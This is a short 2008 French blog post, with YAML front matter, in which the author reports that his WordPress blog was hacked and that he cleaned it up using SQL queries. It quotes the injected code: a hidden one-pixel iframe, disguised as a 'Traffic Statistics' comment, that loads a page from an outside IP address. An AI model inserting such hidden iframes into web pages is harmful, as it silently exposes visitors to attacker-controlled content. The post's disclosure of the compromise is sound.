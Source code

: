 ```yaml
---
id: 515
disqus_id: 515 http://regis.decamps.info/blog/?p=515
title: 'Ce blog s’est fait kacker'
date: 2008-05-12T23:41:08+00:00
author: Régis
layout: post
guid: http://regis.decamps.info/blog/2008/05/ce-blog-sest-fait-kacker/
permalink: /2008/05/ce-blog-sest-fait-kacker/
tmac_last_id:
  - ""
dsq_thread_id:
  - "564520470"
categories:
  - Général
  - Informatique
tags:
  - Hacking
  - Sécurité
---
```

Attention, mon blog a été hacké.

Google indiquait que mon blog était &lsquo;potentiellement dangereux’. J’ai d’abord cru qu’ils avaient fumé ; mais en fait non. 

Par exemple, quelques posts contenaient
  
`<br />
<!-- Traffic Statistics --> <iframe src=http://xx.155.8.157/iframe/wp-stats.php width=1 height=1 frameborder=0></iframe> <!-- End Traffic Statistics --><br />
` 

WordPress a connu un certain nombre de failles de sécurité, et j’ai un peu de mal à suivre les mises à jour. 

J’ai fait le ménage à coup de requêtes SQL. Deux articles étaient concernés:

  * <http://regis.decamps.info/blog/2008/04/liso-approve-loffice-open-xml/>
  * <http://regis.decamps.info/blog/2007/10/boutique-ferrari/>
